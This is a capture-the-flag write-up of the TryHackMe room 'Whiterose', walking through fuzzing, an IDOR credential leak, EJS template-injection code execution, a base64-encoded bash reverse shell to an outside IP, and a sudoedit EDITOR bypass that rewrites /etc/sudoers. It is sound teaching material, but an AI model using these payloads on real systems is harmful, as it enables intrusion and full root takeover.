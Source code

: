 ```yaml
---
title: "THM - Whiterose"
date: 2025-02-02
image: /assets/images/whiterose/whiterose.png
tas: [tryhackme, writeups, linux, ffuf, sudoedit, burp-suite]
categories: [TryHackMe, Writeup, CTF, Easy]
redirect_from: /2025/02/02/whiterose/
---
```


Hi,

This is my writeup about the [TryHackMe](https://tryhackme.com) easy room ["Whiterose"](https://tryhackme.com/r/room/whiterose).

## Enumeration

We already got credentials in the task description:

```
Olivia Cortez:olivi8
```
{: .nolineno}

So, we have the key, but not the door. I started as always if the target is not specified.

With a nmap scan:

```shell
nmap -Pn -F $target -oN ports
```
{: .nolineno}

There are two ports open and I checked both with `nmap -sC -sV` but the software running on this server has no known vulnerability.
![nmap services light](/assets/images/whiterose/light/portscan.png){: .light }
![nmap services dark](/assets/images/whiterose/dark/portscan.png){: .dark }

The webserver is trying to redirect to `cyprusbank.thm`, so lets add this fqdn to our `/etc/hosts` file.

### Website

![login page light](/assets/images/whiterose/light/mainsite.png){: .light }
![login page dark](/assets/images/whiterose/dark/mainsite.png){: .dark }

On the website there was nothing useful to find. As we have a FQDN I start a search for subdomains with [ffuf](https://github.com/ffuf/ffuf).
```bash
ffuf -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -w /usr/share/seclists/Discovery/DNS/subdomains_top1million-110000.txt -c -v -fs 57
```
{: .nolineno}
I used the `-fs 57` to filter responses with the size of 57, because of the amount of false positives which have this size.
![login page light](/assets/images/whiterose/light/ffuf.png){: .light }
![login page dark](/assets/images/whiterose/dark/ffuf.png){: .dark }

Only one subdomain was found, the `admin` subdomain. The next step will be to add the `admin.cyprusbank.thm` with the same target IP to the `/etc/hosts` file and visit the page.

### Admin Page

![login page light](/assets/images/whiterose/light/adminlogin.png){: .light }
![login page dark](/assets/images/whiterose/dark/adminlogin.png){: .dark }

To login I used the already provided credentials from the task description.
There are four menu entries:
- `Home`:
  Which shows accounts (not all) and the status of this imaginary bank
- `Search`:
  To search for accounts and it lists all accounts if the search input is empty
  ![login page light](/assets/images/whiterose/light/phonemasked.png){: .light }
  ![login page dark](/assets/images/whiterose/dark/phonemasked.png){: .dark }
- `Settings`: Shows only that we have no permissions
  ![login page light](/assets/images/whiterose/light/nopermission.png){: .light }
  ![login page dark](/assets/images/whiterose/dark/nopermission.png){: .dark }
- `Messages`: Which shows us five messages

There is no hint that the messages are readed from someone (simulated ofc) so XXE would make no sense. I looked into the source code of that menu entry.
But there was nothing useful in the page source code for each menu entry. Looking around and testing out, what requests are made and responses coming back, I discovered the parameter in the url for the messages entry:
![login page light](/assets/images/whiterose/light/inspector.png){: .light }
![login page dark](/assets/images/whiterose/dark/inspector.png){: .dark }
The first thing that comes to mind, is to check for a [Insecure Direct Object Reference](https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html)(IDOR).
Because there where five messages and the number five was the current parameter value, I decided to increase the number.
With each step a new message appears until number nine.
![login page light](/assets/images/whiterose/light/gaylebev.png){: .light }
![login page dark](/assets/images/whiterose/dark/gaylebev.png){: .dark }
Yes! Another username and password to to login.
After using this credentials to login, the phone numbers are visible now. Answer the frist question and continue.
The Settings menu is now available and it shows a page with two input-fields to change the password of an user. I give it a try and changed the password of `Gayle Bav`, but it this dosen't work.
But there have to be something about this page, as it is restricted to some users. There must be a reason for that.

I fired up Burp Suite and take a closer look to the request and response when changing a password.
After playing around for a half hour or more and also begin to doubt that this is the way in, I have accidentally send the request without the `password` parameter.
I was trying to see if there will be some kind of error if sending malformed parameters and yes, the response shows a traceback error message:
![login page light](/assets/images/whiterose/light/ejs.png){: .light }
![login page dark](/assets/images/whiterose/dark/ejs.png){: .dark }
This `ejs` stands for embedded javascript. When searching for "settings.ejs vulnerability" the [first github link](https://github.com/mde/ejs/issues/735) shows a possible exploit!
The PoC of the GitHub user [wh0amitz](https://github.com/wh0amitz) looks like this:
```
?name=John&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('calc');
```
{: .nolineno}

But instead of `calc` I choose a better fit for out context and executed the `ls` command:

![login page light](/assets/images/whiterose/light/ejsls.png){: .light }
![login page dark](/assets/images/whiterose/dark/ejsls.png){: .dark }

Yes! We are able to execute commands!
By executing the `id` command, it shows that we are executing those commands as `web` user.

## Reverse Shell

The next step was to get a reverse shell from that. And ye, you could retriev the user flag from this point on, but I decided to wait for it.

Just for fun.

Now, the reverse shell will be a simple bash reverse shell command.
To create reverse shells, there is a website named [Reverse Shell Generator](https://www.revshells.com/) which supports any executable and language to create revshells and also support encoding of the command.
But when I put in the command as it is, it will not run. Maybe because of some escaping error in the string itself.
Good that the website support encoding the command. But even URL Encoding doesen't solve the problem.

Another try will be to send base64. This could be a solution, but the `execSync` function will not decode it back to a string and execute the code for us, we have to decode it on the target itself and run it afterwards.
Should be easy when using shell oneliner:
```shell
bash -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzAgMD4mMQ==| base64 -d | bash"
```
{: .nolineno}

This command will execute `echo` which will print the base64 encoded command, but this will be piped to the `base64` command, which decode it and then the decoded string will be piped to the `bash` command, which will run the string.
For me this doesn't work at first, because instead of `sh` I decided to use `bash` to run the reverse shell. When using `sh` it works as expected.
Just to be sure, I choose the absolute path `/bin/bash` instead of just `bash`, this will create a connection but stop it immediately.
So back to `sh` then.

Now we have a shell on the target as user `web`. By this time I answered the second question.

> To stabilize the shell do the following, this will save your nerves later. Trust me.
> 1. export TERM=xterm
> 2. python3 -c 'import pty;pty.spawn("/bin/bash")'
> 3. CTRL+Z (press keys, this is not a command)
> 4. stty raw -echo; fg
> 5. reset
{: .prompt-tip}

## Root it

When I land on a linux machine and want to check privilege escalation possibility, the first thing I do is `sudo -l`.
And it was just the right thing to do, as it shows us that the user `web` can run sudo without the need of a password,
but only for the following command entered 1:1 unchanged:
```bash
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
{: .nolineno}

This is the first time I hear of `sudoedit`. Even that I was used to use ArchLinux as my Desktop and still using it on all my servers, I never came across this command.
Time to investigate what this command does. And ye, I already checked [GTFOBins](https://gtfobins.github.io), but there was nothing about the `sudoedit` command.

When facing a command for the first time, it is a good idea to read the [man page](https://man7.org/linux/man-pages/man8/sudoedit.8.html) for that command.
So, the manual say that this command opens files as another user to edit them. I could have guessed it by it's name.
If I run the command with sudo, it opens the file with `nano`, a texteditor which only exist for non-Vim natives to be able to install archlinux, I guess.
Lucky for me, that I like `vim`/`vi`/`neovim` more than `nano` and the first thing I would do, is to change the editor. Because of this impulses, my though was "How do `sudoedit` decide which editor to use?"

If you ever have installed archlinux then you also have faced the problem, when you forget to install `sudo` on it and when want to do so, you have to use [`visudo`](https://wiki.archlinux.org/title/Sudo#Using_visudo) to enable sudo right for your local user.

Why is this so relevant for this case you may ask. Now, when using `visudo`, you can specify the editor by passing an environment varibale `EDITOR=`.
And on the MAN page of the `sudoedit` command, it says that it uses the very same environment variable to select the editor:

![login page light](/assets/images/whiterose/light/sudoeditman.png){: .light }
![login page dark](/assets/images/whiterose/dark/sudoeditman.png){: .dark }

For clarification:

The `sudoedit` is not `sudo $EDITOR <file>`. `sudoedit` instead copies the target file to a temporary location, and the file is open with the user `web` in our case, not as root.
After closing the texteditor, `sudoedit` moves the file to it's original place and overwrite the old file with root privileges.
Knowing that, it will be useless to run some kind of `export EDITOR='vim -c "!/bin/bash"'` shell spawn commands, as they will be run with the rights of the local user.

To gain root, we have to modify a file which give us root right. I have the freedom here to choose to change `passwd`/`shadow` file or the most simpliest way: change `sudoers` file.

Now, we are only allowed to open `admin.cyprusbank.thm` file with sudoedit, which will rewrite it as root afterwards. To bypass this and be able to decide which file we want to edit, vim has a feature which prevent vim from treatening the following as arguments.

```bash
export EDITOR='vim -- /etc/sudoers'
```
After this export, I ran the sudo command 1:1, but it opens the `sudoers` file instead.

![login page light](/assets/images/whiterose/light/sudoers.png){: .light }
![login page dark](/assets/images/whiterose/dark/sudoers.png){: .dark }

This modification allows the `web` user to run every command without the need of a password with `sudo`.
To switch to root, just do `sudo su`.

Now, with root access, the last flag can be obtained.

Good luck! :)

---

![dark mode only](/assets/images/darksoulsMeme.png){: width="972" height="589" }
